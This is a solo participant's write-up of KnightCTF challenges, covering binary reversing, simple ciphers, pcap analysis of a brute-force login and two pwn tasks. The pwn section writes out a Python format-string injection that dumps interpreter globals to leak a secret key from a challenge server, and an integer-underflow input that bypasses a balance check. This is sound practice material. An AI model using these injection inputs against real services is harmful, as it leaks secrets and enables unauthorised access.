I recently solo participated in the 24-hour KnightCTF. I placed 197th out of the 759 teams. Huge thanks to the [Knight Squad](https://knightctf.com/) for hosting this really fun CTF.

# Reverse Engineering
## Binary Quest
> **Description**: In the far-off kingdom of Valoria, an ancient relic called the “Sacred Flag” lies hidden within a guarded fortress. Legend says only a true knight of cunning and skill can lay claim to its power. Dare you venture into the shadows and emerge victorious? Your journey begins now—onward, brave soul, and seize your destiny in the Binary Quest.

> **Author**: NomanProdhan

For this challenge, we are given a binary file called `binary.quest`. Before trying open it in Ghidra, I decided to run the `strings` command on the file to see if anything interesting comes up. The following came up:



This file has been packed with `UPX V4.24`. After a bit of research, I found out that there is a UPX tool available to unpack the file, which I installed using the command `sudo apt install upx`. I then unpacked the file using `upx -d binary.quest`. I was now able to open the file using Ghidra to understand how the file works.



Most of the functions weren't interesting but `FUN_00101Oa0` seemed to be the way to go. The logic that checks if the users' input matches the flag is:

```C
  printf("Enter the sacred flag to complete your quest: ");
  __isoc99_scanf(&DAT_00102356,local_58);
  sVar2 = strlen(local_58);
  FUN_00101330(local_58,sVar2 & 0xffffffff);
  iVar1 = strcmp(local_58,local_98);
  if (iVar1 == 0) {
    puts("\nYou have proven your valor, oh noble knight!");
    puts("The kingdom rejoices at your triumph, and the hidden flag is indeed yours.\n");
  }
  else {
    puts("\nAlas, you have failed this time. The quest remains unfulfilled...");
    puts("Return stronger and try again, brave knight.\n");
  }
```

The program checks if the users' input (`local__58`) is equal to the variable `local_98`, which contains the flag. 
Looking at lines 42-45 we can see what the value of `local_98` is, alongside two other variables:

```C
  local_88._0_4_ = 0x7d5f3f59;
  local_98._8_4_ = 0x37695f73;
  local_98._0_8_ = 0x34575f7b4654434b;
  uStack_8c = 0x7334655f
```

Decoding these hex values using CyberChef we get the following: 
* `local_88._0_4_ = }_?Y`
* `local_98._8_4_ = 7i_s`
* `local_98._0_8_ = 4W_{FTCK`
* `uStack_8c = s4e_`

`FTCK` is `KCTF` backwards which is the format of the flags, so these values need to reversed and concatenated to get the flag. 

Flag: `KCTF{_W4s_i7_e4sY?_}`

## Easy Path to the Grail
> **Description**: Brave knight, your quest is simple yet essential—unlock the secrets hidden in this binary challenge and tread the path to the grail. The journey will test your wits as you reverse the provided binary, uncovering the treasure within.

> **Author**: NomanProdhan

For this challenge, we are given a binary file called `grail.knight`. Running `strings` on the file doesn't return anything interesting so I opened it in Ghidra. This time there are a few interesting functions `main`, `transforming_input` and `do_fight`. 



Inside the `main` function, the program takes in the users' input (`local_198`), runs the `transform_input` function with the parameters as  `local_198` and  `local_118` which is an empty variable. It then checks if  `local_118` is equal to some string value. If it is, then the users' input is the correct flag.

```C
  printf("Enter the password (the original flag): ");
  iVar1 = __isoc99_scanf("%127s",local_198);
  if (iVar1 == 1) {
    transform_input(local_198,local_118);
    iVar1 = strcmp(local_118,"D2C22A62DEA62CCE9EFA0ECC86CE9AFA4ECC6EFAC6162C3636CC76E6A6BE");
    if (iVar1 == 0) {
      printf("Correct! The flag is %s\n",local_198);
    }
    else {
      puts("Wrong password!");
    }
    uVar2 = 0;
  }
```

Looking at `transform_input`, we can see:

```C
void transform_input(char *param_1,char *param_2)
{
  byte bVar1;
  char *local_28;
  char *local_20;
  
  local_28 = param_2;
  for (local_20 = param_1; *local_20 != '\0'; local_20 = local_20 + 1) {
    bVar1 = do_fight(*local_20);
    sprintf(local_28,"%02X",(ulong)bVar1);
    local_28 = local_28 + 2;
  }
  *local_28 = '\0';
  return;
}
```
This function calls the `do_fight` function, likely doing some sort of byte conversion, on each character of the input string `param_1`, which is the users' input. Each byte is then converted as a two digit hexadecimal string and stored in `param_2` which points to `local_118` from the function call in `main`. In `do_fight`, the following can be seen:

```C
byte do_fight(byte param_1)
{
  byte local_1c;
  byte local_d;
  int local_c;
  
  local_d = 0;
  local_1c = param_1;
  for (local_c = 0; local_c < 8; local_c = local_c + 1) {
    local_d = local_d << 1 | local_1c & 1;
    local_1c = local_1c >> 1;
  }
  return local_d;
}
```

Given a byte, `do_fight` will return the reverse. So given the string value that `local_118` is compared with, we need to convert it into binary, reverse the binary and covert it to text, which will give us the flag. Doing this in CyberChef gives the following:



Flag: `KCTF{e4sy_p3asY_r3v_ch4ll3nge}`

## Knight's Droid
> **Description**: For ages, a cryptic mechanical guardian has slumbered beneath the Knight’s Citadel. Some say it holds powerful secrets once wielded by ancient code-wielding Knights. Many have tried to reactivate the droid and claim its hidden knowledge—yet none have returned victorious. Will you be the one to solve its riddles and awaken this legendary machine?

> **Author**: NomanProdhan

For this challenge, we are given an APK file called `knights_droid`. I open it using `jadx knights_droid.apk`. Inside the source code the following main function can be seen:



The program checks to see if the user has the right flag by calling the function `verifyFlag` function from the `SecretKeyVerifier` class.



Looking at the `SecretKeyVerifier` class, it can be seen that the `verifyFlag` function encodes the users' input and then compares it with `GYPB{_ykjcnwp5_GJECDP_u0q_c0p_uKqN_Gj1cd7_zN01z_}`, which is most likely the flag. I guessed that it was probably some type of substitution cipher so I brute forced (ROT13) the string using CyberChef and got the following:



Flag: `KCTF{_congrat5_KNIGHT_y0u_g0t_yOuR_Kn1gh7_dR01d_}`

# Web
## KnightCal
> **Description**: In the realm of ancient codes, only those who enumerate correctly can unveil the hidden flag. Craft your mathematical expressions wisely and uncover the secrets that lie within.

> **Author**: NomanProdhan

Going to the given website the following calculator page is shown:


After entering `1234`, this output was given:


It was clear that the numbers corresponded to letters in some way, so I decided to try all the digits: 


Given this output, I wanted to try and create the word `flag` as the website would then return `flag.txt`. Given the output from above I used `7195` as the input since:
* `7 = f`
* `1 = l`
* `9 = a`
* `5 = g`



Flag: `KCTF{_c0ngR4t5_KNIGHT_f1naLLy_Y0U_g07_tH3_r1gh7_m4tH_}`

# Cryptography
## Reflections in the Random
> **Description**: We’ve uncovered a single string that’s saturated with possibilities. At first glance, it might resemble standard Base64 output—but every attempt to decode it directly results in chaotic gibberish.
> 
> Some agents suspect an unconventional passphrase or a stray cosmic phenomenon that shifted the bits; others whisper about symmetrical illusions that hide the real message. We even tried old-fashioned classical ciphers—simple shifts, sub-harmonic permutations, you name it—but the truth remains elusive.
>
> All we know is that the message is said to be “spun backward from a single pivot,” though no one agrees what that means. Could it mean time is reversed? Maybe it’s an obscure numeric transformation. Rumor has it that if you find “the key,” everything falls into place. Or maybe it’s simpler than we think—just cleverly disguised.
>
> Good luck dissecting this anomaly. Remember: “When the obvious leads nowhere, perhaps the solution sits right in front of you—only viewed from the wrong angle.

> **Author**: pmsiam0

We are given `Cipher.txt` which contains the following text:
> chipher:  PzExcRcFHQsdOxF2cR0WEXIPOQQWAQk=
>
> key = 0x42

Given the challenge description, I know that during the decryption process, there must be some sort of reversal. I head to CyberChef and start trying different combinations. Since we are just given a key, I think that we need to use XOR somewhere. The key `0x42` is the letter `B`. Using this information, I decode it from Base64, reverse the output then XOR using the letter `B`. This recipe gives the following:



Flag: `KCTF{M0ST_34Sy_I_GU3ss}`

## Forward, Yet It Falls Back
> **Description**: We discovered a peculiar string that appears standard but yields gibberish under normal decoding. Some analysts detect suspicious symmetry, hinting at reflection or an inverted dimension. Others suspect hidden block boundaries or a “backwards encoding,” while a few insist it's “rotated on a different axis.”
>
> Our only clue: “Symbols may shift forward, but the key is often in reversing what we think is correct.”
>
> Good luck peeling back the layers—sometimes you must step backward to see what’s right before you.

> **Author**: pmsiam0

In this challenge, we are given a text file that contains the following:
> base32: G7G2DGQ5SY4DCK5YVUDRROJI3UOAUUNTVR6XKDOKQO4CAAKK2MJA====
>
> key = 0123456789ABCDEF
>
> iv  = FEDCBA9876543210

Again, I head to CyberChef and start experimenting. I know that the first step is to decode the string use Base32. From here, I know that I probably won't be able to decode it using any simple cipher, given the challenge description. Given the hint *"Symbols may shift forward"* and the fact that we are given a **key** and **iv**, I'm thinking it is some mode of AES. 

After converting the decoded Base32 string to hex and decrypting the string in CBC using the given **key** and **iv** the following is given:



Flag: `KCTF{R3vers3_R3vers3_D3C0DE}`

# Networks
## Server & Attacker IP
> **Description**: In this challenge, I've crafted a series of intricate scenarios that will test your investigative skills. You'll dive into a network of secrets, uncover hidden identities, and piece together the story of a complex cyber attack. Each step requires careful analysis and keen observation. There are total 17 challenges & 3 pcap files in this category. The files will be provided accordingly. The answers are there, but they won't come easily—you'll need to think like an attacker and act like a detective. Get ready to unravel the mystery and prove your prowess in this thrilling journey.
> 
> What are the server & attacker IPs?

> **Author**: TareqAhamed (0xt4req)

For this challenge and all following network challenges, we're given a `capture1.pcapng` file. In this first challenge, we have to find the server and attacker IPs. Quickly scrolling over the file, I can see that there are a lot of `[SYN]` TCP packets being sent from `192.168.1.9` to `192.167.1.10`. `192.167.1.10` is then replying with `[RST, ACK]`. 



Since this exchange goes on for quite I while, I'm thinking that the attacker is `192.168.1.9` and they are running some sort of port scan on the server at `192.167.1.10`.

Flag: `192.168.1.10_192.168.1.9`

## The Intruder's Identity
> **Description**: The attacker has gained access. Can you find out the username and password he used?

> **Author**: TareqAhamed (0xt4req)

Looking at the packets, it's clear that `192.167.1.10` is a web server. I filter the packets using `ip.src == 192.168.1.9 && http.request.method == POST && ip.dst == 192.168.1.10` and the first packet that comes up is to `/register`. Looking at this packet the following details are found:

```
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "_token" = "pLDuHThQ1RGo8gXsm7ZHtxYLr66KDMWMXJEt8GEa"
    Form item: "name" = "TheExploiter"
    Form item: "username" = "theexploiter"
    Form item: "email" = "theexploiter@knightblog.com"
    Form item: "password" = "exploiter@test"
    Form item: "password_confirmation" = "exploiter@test"
```

Flag: `KCTF{theexploiter_exploiter@test}`


## The Real Admin
> **Description**: Can you identify the real admin's ip?

> **Author**: TareqAhamed (0xt4req)

Filtering the packets using `http.request.method == POST && ip.addr == 192.168.1.10` doesn't help because the attacker has used some sort of web enumeration tool to try and brute force the admins' password.



So the attackers' IP address needs to be filtered out. 

`http.request.method == POST && ip.addr == 192.168.1.10 && !ip.addr == 192.168.1.9` shows one packet with the details: 

`171000	623.001452577	192.168.1.3	192.168.1.10	HTTP	128	POST /admin/blog/delete/3 HTTP/1.1  (application/x-www-form-urlencoded)`

Flag: `KCTF{192.168.1.3}`

## Compromising the Admin
> **Description**: The attacker managed to compromise the admin's credentials. Identify the admin's email and password.

> **Author**: TareqAhamed (0xt4req)

Since we know that the attacker is trying to brute force the `/admin/login` page with POST requests, I decide to filter the packets using this information:

`http.request.method == POST && ip.addr == 192.168.1.10 && ip.addr == 192.168.1.9 && http.request.uri == "/admin/login"`

I decide to use the information from the last packet since this would mean that either the attacker's brute force ended unsuccessfully or they were able to get the right credentials.

```
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "_token" = "lj41L7Wk6N6hZd7K5twHMghHSkruvwzX3JcV5GLj"
    Form item: "email" = "admin@example.com"
    Form item: "password" = "password"
```

Flag: `KCTF{admin@example.com_password}`

# PWN
## Knight's Bank
> **Description**: In the heart of the ancient kingdom lies the Knight Bank, a fortress of wealth guarded by its intricate magical arithmetic. Only the most cunning warriors who understand the secret vulnerabilities of numbers can uncover the hidden treasure buried deep within its vaults.

> **Author**: NomanProdhan

For this challenge, we are given given an IP address and port to establish a netcat connection with (which I forgot to note down). We are also given a `knight_bank` file, which is being run when we establish the netcat connection. Running the file gives:



Opening the file in Ghidra, there are two interesting functions `main` and `win_prize`. `main` has the following logic:
```C
undefined8 main(void)

{
  int iVar1;
  undefined8 uVar2;
  uint local_10;
  uint local_c;
  
  local_c = 1000;
  puts("Welcome to the Knight Bank!");
  fflush(stdout);
  printf("Your current balance is: %u\n",(ulong)local_c);
  fflush(stdout);
  printf("Enter the amount you want to withdraw: ");
  fflush(stdout);
  iVar1 = __isoc99_scanf(&DAT_004020a0,&local_10);
  if (iVar1 == 1) {
    if (local_10 < 0xf4241) {
      local_c = local_c - local_10;
      printf("You withdrew %u. Your new balance is %u.\n",(ulong)local_10,(ulong)local_c);
      fflush(stdout);
      if (local_c < 0xf4241) {
        puts("Better luck next time!");
        fflush(stdout);
      }
      else {
        win_prize();
      }
      uVar2 = 0;
    }
    else {
      puts("Error: You cannot withdraw more than 1,000,000 at a time.");
      fflush(stdout);
      uVar2 = 1;
    }
  }
  else {
    puts("Invalid input. Exiting.");
    fflush(stdout);
    uVar2 = 1;
  }
  return uVar2;
}
```

`win_prize` function: 
```C
void win_prize(void)
{
  puts("Congratulations! You win the prize!");
  fflush(stdout);
  system("cat flag.txt");
  return;
}
```

Given this information, we need to trigger the `else` statement that calls `win_prize`. After subtracting the users' input (which has to be less than 1,000,000 given the hex value `0xf4241`) from the balance, the program checks if the result is less than 1,000,000. If it isn't then we get the flag. 

I decided in input 10,000 since it was larger than 1000 and less than 1,000,000. Since `local_c` is a 32-bit unsigned integer, this would cause the subtraction to wrap around when it goes below 0. This gave the flag, however I forgot to note the flag down, so here is the output on my local machine:

```
Welcome to the Knight Bank!
Your current balance is: 1000
Enter the amount you want to withdraw: 10000
You withdrew 10000. Your new balance is 4294958296.
Congratulations! You win the prize!
cat: flag.txt: No such file or directory
```

## Knight's Secret
> **Description**: Exploit & get the flag.
> 
> Connection Info: nc 45.56.68.122 1337

> **Author**: NomanProdhan

We aren't given any files for this challenge. Connecting to the server we can see this:
```
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret: 
```

Entering the safe template given shows:

```
Enter your secret: Greetings, {person_obj.name}, the {person_obj.role}
Output: Greetings, Brave Knight, the Defender of the Realm
```

After much trail and error I was able to figure out that the program running on the server would only taken in objects as input. So using this, we need to get the `CONFIG` library. Using `{person_obj.__class__.__init__.__globals__}` we can see the following:

```
Enter your secret: {person_obj.__class__.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x72e3aa43b920>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x72e3aa422340>, 'main': <function main at 0x72e3aa200d60>}
```

The key `_KNIGHTSECRET2025_` has the flag. Entering `{person_obj.__class__.__init__.__globals__[CONFIG][KEY]}` gives:

```
Enter your secret: {person_obj.__class__.__init__.__globals__[CONFIG]} 
Output: {'KEY': '_KNIGHTSECRET2025_'} 

Enter your secret: {person_obj.__class__.__init__.__globals__[CONFIG][KEY]}
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```

Flag: `KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}`

# OSINT
## The Hidden Quest
> **Description**: The journey begins even before the battle starts! 🕵️‍♂️
>
> In the world of knights and hackers, not everything is as it seems. Somewhere in our recent posts, a secret lies hidden, waiting to be discovered. 🕵️‍♂️
> 
> Look closer, think sharper, and let your curiosity guide you. The answer is out there – will you find it? 🛡️

> **Author**: NomanProdhan

Given the challenge description, I decide to find all the different social media accounts of Knight Squad. Going to their [website](https://knightctf.com/), we can see at the bottom of their page that they have a Facebook, Twitter and Youtube account. I decide to start with their Facebook account. They have made several posts this year so I decide to go through them all. On one of the posts I see that one of the hashtags is #Flag. I double check this by looking at the tags for the other posts and this post is the only one that has it. After looking at the image, I saw the flag in the top left. The post is [here](https://www.facebook.com/photo/?fbid=603615618984074&set=ecnf.100080069238184).



Flag: `KCTF{w0W_y0U_G07_m3_}`

# Thank You
If you've made it this far, I hope you've enjoyed this writeup and thank you for reading it! Thanks again to the Knight Squad for organising this CTF.